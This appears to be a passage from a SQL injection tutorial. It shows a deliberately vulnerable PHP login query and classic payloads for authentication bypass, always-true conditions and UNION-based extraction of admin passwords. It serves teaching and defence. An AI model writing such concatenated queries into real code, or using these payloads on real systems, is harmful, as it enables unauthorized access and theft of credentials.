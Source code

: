 
## What is SQL Injection?

**SQL Injection occurs when user input is directly inserted into SQL queries without proper validation or sanitization.**

Instead of treating user input as data, the database interprets it as SQL commands.

### Vulnerable Code Example

```php
// DON'T DO THIS - Vulnerable!
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($connection, $query);
```

---

## Basic SQL Injection Techniques

### 1. Authentication Bypass

**Normal Login:**
- Username: `admin`
- Password: `password123`
- Query: `SELECT * FROM users WHERE username = 'admin' AND password = 'password123';`

**Injection Attack:**
- Username: `admin'--`
- Password: `anything`
- Query: `SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything';`

The `--` comments out the password check, bypassing authentication!

### 2. Always True Conditions

**Classic injection:**
- Username: `' OR '1'='1' --`
- Password: `anything`
- Query: `SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = 'anything';`

Since `'1'='1'` is always true, this returns all users and typically logs you in as the first user (often admin).

### 3. Union-Based Injection

**Goal:** Extract data from other tables

```sql
' UNION SELECT username, password FROM admin_users --
```
